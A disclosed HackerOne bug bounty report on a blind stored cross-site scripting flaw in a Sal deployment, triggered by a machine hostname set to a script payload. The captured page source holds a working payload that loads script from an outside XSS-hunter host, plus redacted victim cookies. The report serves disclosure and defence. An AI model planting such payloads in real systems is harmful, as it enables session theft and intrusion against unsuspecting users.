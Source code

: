 # Blind Stored XSS in HackerOne's Sal 4.1.4.2149 (sal.████.com)

## Report Details
- **Report ID**: 995995
- **URL**: https://hackerone.com/reports/995995
- **State**: Closed
- **Severity**: none
- **Submitted**: 2020-10-01T16:26:10.578Z
- **Disclosed**: 2020-11-09T18:33:11.954Z

## Reporter
- **Username**: nahamsec
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
The page located at `https://sal.██████.com/list/Activity/hour/all/0/` suffers from a Cross-site Scripting (XSS) vulnerability when a user has set their hostname on their machine to an XSS payload. 

##### Vulnerable Page
`https://sal.██████.com/list/Activity/hour/all/0/`

##### Victim IP Address
`███████`

##### Referer
`https://sal.██████.com/`

##### User Agent
`Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36`

##### Cookies (Non-HTTPOnly)
`_ga=████████; _mkto_trk=id:███&token:_mch-█████.com-██████; _biz_uid=████████; _biz_nA=2; _biz_flagsA=%7B%22Version%22%3A1%2C%22Mkto%22%3A%221%22%7D; _biz_pendingA=%5B%5D; csrftoken=█████`

#### Source

```
><td><a href="/machine_detail/28/">███</a></td><td>██████████</td><td class="sorting_1">2020-10-01 06:51 BST</td></tr><tr role="row" class="odd"><td><a href="/machine_detail/17/">███████</a></td><td>██████</td><td class="sorting_1">2020-10-01 06:50 BST</td></tr><tr role="row" class="even"><td><a href="/machine_detail/41/">"&gt;<script src="https://nahamsec.xss.ht"></script></a></td><td>bensdp</td><td class="sorting_1">2020-10-01 06:49 BST</td></tr></tbody></table></div></div><div class="row"><div class="col-sm-5"><div class="dataTables_info" id="test_info" role="status" aria-live="polite">██████</div></div><div class="col-sm-7">
```


Thanks,
Ben

## Impact

#

## Attachments
No attachments
